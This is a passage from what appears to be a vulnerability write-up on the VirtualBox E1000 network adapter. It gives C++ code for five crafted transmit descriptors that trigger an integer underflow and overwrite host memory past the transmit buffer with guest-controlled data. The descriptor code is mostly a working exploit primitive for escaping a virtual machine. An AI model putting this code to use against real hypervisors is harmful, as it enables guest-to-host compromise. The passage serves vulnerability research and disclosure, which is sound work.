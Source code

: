 ~~~c++
    TX_descriptors[0].context.dw2.u4DTYP    = E1K_DTYP_CONTEXT;
    TX_descriptors[0].context.dw2.fDEXT     = 1;
    TX_descriptors[0].context.dw2.fTSE      = 1;
    TX_descriptors[0].context.dw3.u8HDRLEN  = 0;
    TX_descriptors[0].context.dw3.u16MSS    = E1K_MAX_TX_PKT_SIZE - 4 - 1;
    TX_descriptors[0].context.dw2.u20PAYLEN = 0x10000;
~~~

The **u16MaxPktLen** value will be **E1K_MAX_TX_PKT_SIZE - 4 - 1**.

**2 - Data descriptor**

~~~c++
    TX_descriptors[1].data.u64BufAddr    = overwrite_data_physic.QuadPart;
    TX_descriptors[1].data.cmd.u4DTYP    = E1K_DTYP_DATA;
    TX_descriptors[1].data.cmd.fDEXT     = 1;
    TX_descriptors[1].data.cmd.fTSE      = 1;
    TX_descriptors[1].data.cmd.u20DTALEN = E1K_MAX_TX_PKT_SIZE - 4 - 2;
~~~

After process this descriptor in **e1kFallbackAddToFrame()**, the **pThis->u16TxPktLen** value will be **E1K_MAX_TX_PKT_SIZE - 4 - 2**.

**3 - Data descriptor**

~~~c++
    TX_descriptors[2].data.u64BufAddr    = overwrite_data_physic.QuadPart;
    TX_descriptors[2].data.cmd.u4DTYP    = E1K_DTYP_DATA;
    TX_descriptors[2].data.cmd.fDEXT     = 1;
    TX_descriptors[2].data.cmd.fTSE      = 0;
    TX_descriptors[2].data.cmd.u20DTALEN = 2;
~~~

After process this descriptor in **e1kAddToFrame()**, the **pThis->u16TxPktLen** value will be increase by **2** to **E1K_MAX_TX_PKT_SIZE - 4** and larger than the **u16MaxPktLen** value: **E1K_MAX_TX_PKT_SIZE - 4 - 1**.

**4 - Data descriptor**

~~~c
    TX_descriptors[3].data.u64BufAddr    = overwrite_data_physic.QuadPart;
    TX_descriptors[3].data.cmd.u4DTYP    = E1K_DTYP_DATA;
    TX_descriptors[3].data.cmd.fDEXT     = 1;
    TX_descriptors[3].data.cmd.fTSE      = 1;
    TX_descriptors[3].data.cmd.u20DTALEN = overwrite_size;
~~~

When process this data descriptor, the integer underflow will occur and result in **overwrite_size  - 4** bytes after the E1000 transmit buffer will be overwritten with the memory from the guest OS.

**5 - Data descriptor**

~~~c++
    TX_descriptors[4].data.u64BufAddr    = overwrite_data_physic.QuadPart;
    TX_descriptors[4].data.cmd.u4DTYP    = E1K_DTYP_DATA;
    TX_descriptors[4].data.cmd.fDEXT     = 1;
    TX_descriptors[4].data.cmd.fTSE      = 1;
    TX_descriptors[4].data.cmd.fEOP      = 1;
    TX_descriptors[4].data.cmd.u20DTALEN = 0;
~~~

